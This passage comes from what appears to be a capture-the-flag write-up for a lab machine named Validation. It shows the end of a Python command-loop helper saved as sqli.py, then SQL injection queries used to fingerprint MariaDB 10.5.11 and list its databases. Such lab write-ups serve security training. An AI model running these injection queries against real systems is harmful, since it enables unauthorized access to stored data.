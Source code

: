 ```py

    # Define behavior for the 'exit' command
    def do_exit(self):
        # Return True to exit the command loop
        return True


# Entry point of the script
if __name__ == "__main__":
    # Create an instance of the custom command-line interpreter and start the command loop
    MyCmd().cmdloop()
```

I'll save it as `sqli.py` and I'll reset the box to clear all my previous SQLi
attempts and have a cleaner output. Then, I'll run this script.

### MariaDB

Let's explore the database we got access to using our SQLi.

#### Version

First, we want to know which database and which version Validation is using to
store the registrations, in order to choose the correct commands.

```sql
> SELECT @@version
```

```
10.5.11-MariaDB-1
```

Alright! So this is MariaDB version `10.5.11`, a fork of MySQL.

#### Databases

Now, let's see which databases are available.

```sql
> SELECT schema_name FROM information_schema.schemata
```

```
information_schema
performance_schema
mysql
registration
```

So this instance contains four databases. Only of them is a non-default MySQL
database though: `registration`.

#### `registration`'s tables

Let's see which tables are included in this database.

